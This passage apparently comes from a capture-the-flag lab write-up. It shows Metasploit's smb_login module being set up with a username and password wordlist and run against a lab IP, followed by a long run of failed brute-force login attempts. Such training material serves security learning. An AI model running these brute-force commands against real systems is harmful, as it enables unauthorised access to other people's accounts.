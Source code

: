 ```bash

View the full module info with the info, or info -d command.
```
Now we'll set required options

we have to set our RHOST too in my case I have already did in start

```bash
msf6 auxiliary(scanner/smb/smb_login) > set SMBuser penny
SMBuser => penny
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
PASS_FILE => /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
msf6 auxiliary(scanner/smb/smb_login) > 
```

Now run

```bash
msf6 auxiliary(scanner/smb/smb_login) > run
[*] 10.10.249.226:445     - 10.10.249.226:445 - Starting SMB login bruteforce
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:95',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:98',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:2003',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:2008',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:111111',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:123456',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:12345678',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:1qaz2wsx',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:abc',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:abc123',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:abcd123',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:account',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:admin',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:adminadmin',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:administator',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:admins',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:air',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:alpine',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:Autumn2013',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:autumn2013',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:Autumn2014',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:autumn2014',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:Autumn2015',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:autumn2015',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:Autumn2016',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:autumn2016',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:Autumn2017',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:autumn2017',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:bankbank',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:baseball',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:basketball',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:bird',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:burp',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:change',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:changelater',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:changeme',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:company',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:company!',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:company1',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:company1!',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:company123',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:complex',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:complex1',
[-] 10.10.249.226:445     - 10.10.249.226:445 - Failed: '.\penny:complex2',
```